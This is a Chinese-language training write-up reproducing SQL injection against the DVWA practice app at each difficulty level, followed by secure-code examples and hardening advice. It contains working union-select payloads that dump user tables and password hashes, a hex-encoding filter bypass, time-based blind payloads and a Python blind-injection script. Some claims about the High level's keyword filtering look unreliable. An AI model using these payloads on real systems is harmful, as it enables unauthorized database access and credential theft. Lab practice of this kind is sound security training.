


# SQL 注入（SQL Injection）漏洞复现

> 漏洞模块：DVWA SQL Injection
> 工具：Burp Suite Community、浏览器
> 难度等级：Low / Medium / High

---

## 一、漏洞概述

**原理**：服务端将用户输入直接拼接进 SQL 语句执行，未使用参数化查询，导致攻击者可注入恶意 SQL 代码。

**OWASP 分类**：A03:2021 - Injection（注入漏洞，长期居 OWASP Top 10 榜首）

**危害**：
- 绕过登录验证
- 拖库（dump 整个数据库）
- 读写文件、执行系统命令（视数据库权限而定）
- 横向移动、提权

**合规声明**：本文档所有 Payload 均在本地 DVWA 靶场复现，仅用于安全学习。严禁对未授权系统使用。

---

## 二、注入点识别（前置）

DVWA SQL Injection 模块的提交方式在 Low 级别为 GET，Medium 级别为 POST。

**通用检测步骤**：
1. 在 `id` 参数后追加单引号 `'` → 触发数据库报错 → 确认存在注入点
2. 追加 `1 and 1=1` 与 `1 and 1=2` → 观察响应差异 → 确认是数字型注入
3. 追加 `1 or 1=1 #` → 返回全部记录 → 进一步验证

---

## 三、DVWA 四等级复现

### 3.1 Low 级别

#### 代码分析
`vulnerabilities/sqli/source/low.php` 关键代码：
```php
$id = $_REQUEST['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query);
```

完全无过滤，直接拼接。

#### 复现步骤

1. 难度调至 **Low**，进入 SQL Injection 页面
2. 浏览器输入 `http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1`，正常返回用户信息
3. 单引号测试：`?id=1'` → **500 Internal Server Error** → 确认注入点
4. 判断字段数：
   - `?id=1' order by 1 #` → 正常
   - `?id=1' order by 2 #` → 正常
   - `?id=1' order by 3 #` → 报错 → 字段数为 2
5. 联合查询爆数据：
   ```
   ?id=1' union select user(),database() #
   ```
   返回当前数据库用户与数据库名。

#### 完整脱库步骤（Payload 链）

```sql
-- 1. 爆数据库名
?id=1' union select 1,database() #
-- 结果：dvwa

-- 2. 爆当前数据库所有表
?id=1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
-- 结果：guestbook, users

-- 3. 爆 users 表字段
?id=1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
-- 结果：user_id, user, password, ...

-- 4. 爆账号密码
?id=1' union select user,password from users #
-- 结果：admin / 5f4dcc3b5aa765d61d8327deb882cf99（MD5）
```

#### 关键截图



> 图示：Burp Suite Repeater 显示 `id=1'` 时返回 500 错误，确认注入点。

**注入结果**：成功获取 users 表 5 个账号的明文账号与 MD5 哈希密码。

---

### 3.2 Medium 级别

#### 防护机制
- **前端**：使用下拉选择框（`<select>`），不允许手动输入
- **后端**：`mysqli_real_escape_string()` 转义单引号等特殊字符

```php
$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $_POST['id']);
$query = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

#### 绕过分析
- 前端限制可通过 Burp Suite 直接发包绕过
- 单引号被转义 → 字符型注入受阻
- 但 `id` 是**数字型参数**，无需闭合单引号，直接拼接数字型 Payload 即可

#### 复现步骤

1. 难度调至 **Medium**
2. 浏览器提交任意 id（如下拉选 1），拦截请求为 **POST**
3. 在 Burp Suite 修改 `id=1 or 1=1 #` → **绕过防护，获取全部用户**

#### Payload 链

```sql
-- 数字型注入，无需单引号
1 or 1=1 #

-- 注释符 --+ 也可（URL 编码后等价于 -- 空格）
1 or 1=1 --+
```

#### 进阶：绕过单引号转义（十六进制编码）

若需绕过更严的单引号过滤（如 High 级别防御性编码），可将表名字段名转为十六进制：

```sql
-- 查数据库名
?id=1 union select database(),2 #

-- 查表名（表名用十六进制编码，避免单引号）
-- 'users' → 0x7573657273
?id=1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x64767761 #

-- 查 users 字段
?id=1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #
```

#### 关键记录

| 项 | 值 |
|---|---|
| 类型 | 数字型 POST 注入 |
| 防护 | 前端下拉限制 + 后端单引号转义 |
| 提交方式 | POST，参数在请求体 |
| 绕过方式 | 抓包修改 id 为数字型 Payload |
| 注释符 | `--+`（URL 编码等价 `-- `） |

---

### 3.3 High 级别

#### 防护机制
- 独立弹窗提交，与主页面不同源（限制自动化）
- 后端对 `union`、`select` 等关键词做字符串匹配过滤

#### 绕过思路
**时间盲注（Time-Based Blind SQLi）**：
- union 被过滤 → 无法直接联合查询
- 无显式数据回显 → 无法直接爆数据
- 但 `id` 参数未做类型过滤，仍直接拼接 SQL 执行

**Payload**：
```
?id=1' and sleep(2) --
```

**原理**：若注入成立，SQL 执行会等待 2 秒，页面响应延迟约 2 秒，可证明盲注存在。

#### 复现步骤

1. 难度调至 **High**，打开 SQL Injection 页面（点击"here to change your ID"打开新窗口）
2. Burp Suite 拦截该新窗口的 POST 请求
3. 修改 `id=1' and sleep(2) --` → 发送请求
4. 观察右下角耗时 ≈ **2000ms** → 证明存在时间型盲注

#### 关键截图



#### 盲注脚本思路（Python）

```python
import requests
import time

url = "http://127.0.0.1/dvwa/vulnerabilities/sqli/"
cookies = {"PHPSESSID": "your_session_id", "security": "high"}
true_payload_template = "1' and if(substring(database(),{pos},1)='{char}',sleep(1),1) --"

database = ""
for pos in range(1, 20):
    for c in "abcdefghijklmnopqrstuvwxyz0123456789_":
        payload = true_payload_template.format(pos=pos, char=c)
        start = time.time()
        requests.get(url, params={"id": payload, "Submit": "Submit"}, cookies=cookies)
        if time.time() - start > 1:
            database += c
            print(f"[+] Found: {database}")
            break
```

> 注意 此脚本仅作为盲注原理演示，请在本地 DVWA 靶场使用。

---

### 3.4 Impossible 级别（安全实现）

```php
// 1. 仅接受 Anti-CSRF token
checkToken($_REQUEST['user_token'], $_SESSION['session_token'], 'index.php');

// 2. 限制 id 必须为数字
$id = $_GET['id'];
if (is_numeric($id)) {
    $data = $db->prepare('SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;');
    $data->bindParam(':id', $id, PDO::PARAM_INT);
    $data->execute();
}
```

**安全设计要点**：
- ✓ Anti-CSRF token
- ✓ 严格数字校验
- ✓ PDO 预编译参数化查询
- ✓ LIMIT 1 限制返回
- ✓ `is_numeric()` 强类型校验

---

## 四、SQL 注入类型速查

| 类型 | 特征 | 适用场景 |
|---|---|---|
| 联合查询注入 | 有显式数据回显 | 数据库内容可见 |
| 报错注入 | 触发 DB 错误回显 | 数据库错误信息可见 |
| 布尔盲注 | 响应有/无差异 | 仅有 true/false 反馈 |
| 时间盲注 | 响应时间差异 | 无任何回显 |
| 堆叠注入 | 多语句执行 | 数据库支持多语句（如 SQL Server） |

---

## 五、加固建议

1. **强制使用参数化查询（Prepared Statement）**：所有用户输入通过占位符绑定
2. **输入白名单校验**：如 `id` 必须为数字，使用 `is_numeric()` / `intval()`
3. **最小权限原则**：Web 应用连接数据库账号只授 `SELECT/INSERT/UPDATE`，禁 `DROP/FILE`
4. **错误信息脱敏**：生产环境关闭数据库详细错误回显
5. **WAF 防护**：部署 Web 应用防火墙，过滤常见 SQL 注入 Payload（深度防御）
6. **日志审计**：记录可疑 SQL 语句，便于事后溯源

---

## 六、参考

- OWASP SQL Injection Prevention Cheat Sheet
- OWASP Top 10 2021 - A03 Injection
- DVWA 官方文档 SQL Injection 模块
- 《Web 安全深度剖析》—— 张炳帅 著